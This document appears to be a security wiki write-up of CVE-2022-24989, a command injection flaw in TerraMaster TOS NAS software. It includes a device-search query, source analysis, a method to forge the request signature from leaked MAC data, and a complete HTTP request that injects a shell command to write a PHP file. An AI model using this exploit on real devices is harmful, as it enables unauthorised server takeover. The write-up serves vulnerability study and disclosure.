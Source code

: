 # TerraMaster TOS createRaid remote command execution vulnerability CVE-2022-24989

## Vulnerability Description

The createRaid method of the TerraMaster TOS mobile.class.php file has a remote command execution vulnerability. The attacker cooperates with the CVE-2022-24990 vulnerability to obtain server permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">TerraMaster TOS < 4.2.31 </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"TerraMaster" && header="TOS"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647617923369-02e2a7e7-7705-4e12-a021-49ca44300125-20220319162830411.png)

We check the `createRaid method` in the `mobile.class.php file`, where the parameter `raidtype and parameter diskstring` are both controllable parameters

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647671945531-f5329a4c-12dd-4957-b438-3001e66f146b.png)

Pay attention to this line of code and track the `volume_make_from_disks` method

```php
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647672020849-c216e10d-2c24-4476-8bf9-ef0936ea39cb.png)

You can see that the `$levelk` parameter in the method call is a controllable parameter. Passing it into the `_backexec` method can cause the command to be spliced ​​and executed malicious commands.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647672331076-640ed4a8-edbd-458b-a6c8-30e68b70ec64.png)

Back to the definition at the beginning of the `mobile.class.php` file

```php
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

Found that the method name `createRaid` does not exist in the `$notHeader` array. Take a look at the definition in api.php

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647676041684-2edf4cd9-527a-4032-b467-181f50477dd7.png)

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

Since there is a verification request header during instantiation, it is necessary to judge if it is used to call the method for command execution

```php
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

Seeing this, there are two main parameters that are worth paying attention to: `HTTP_TIMESTAMP` and `HTTP_SIGNATURE`

Tracking method tos_encrypt_str is not found in the source code. Let's check the list of php extension functions.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647677029047-a3d7d35e-581c-46b3-af90-42299e45ec6f.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647676739320-049b5cab-1197-4c01-a34e-df83e789fb8f.png)

Download this so file open with IDA Search string `tos_encrypt_str`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647676834698-5168b3ee-7126-499e-91c5-80b77d9cf0e2.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647676935156-1f51cd3b-0c11-4eaa-afcf-18851d93f0d3.png)

Follow-up method `get_mac_addr`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647676961925-d1d9b839-9594-45bf-ab6e-4dac2fd11300.png)

Here you can see the `mac` of the `eth0 network card`, and then go through `php_sprintf`, follow up `&ubk_38fa`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647677368472-e0c3db7d-e2a5-4b09-aa14-981b183931ef.png)

In fact, it gets the last 3 bytes of mac. For example, the mac address is: 11.22.33.44.55.66, and after passing it, it gets 445566

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647677479277-7433cd43-6bb0-4451-b9ef-bd27b78a585b.png)

Go back to the execution of the function, we can know that in fact this function is equivalent to

```php
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

Check out the previous judgment code

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

The TIMESTAMP parameter is the current timestamp, so the judgment logic here is very clear

```php
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

Through the previously mentioned vulnerability `CVE-2022-24990` leaked PWD and mac addresses, we can use this command to execute the vulnerability and obtain information through the logic written by the POC just now

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220320004751660.png)

Write php malicious file in sending request packet

```php
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647678418656-fda11f34-0721-4123-999d-16492413a06d.png)

Access to the written file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647678464951-45d58af7-9f32-4f0b-9d63-2059eb36682c.png)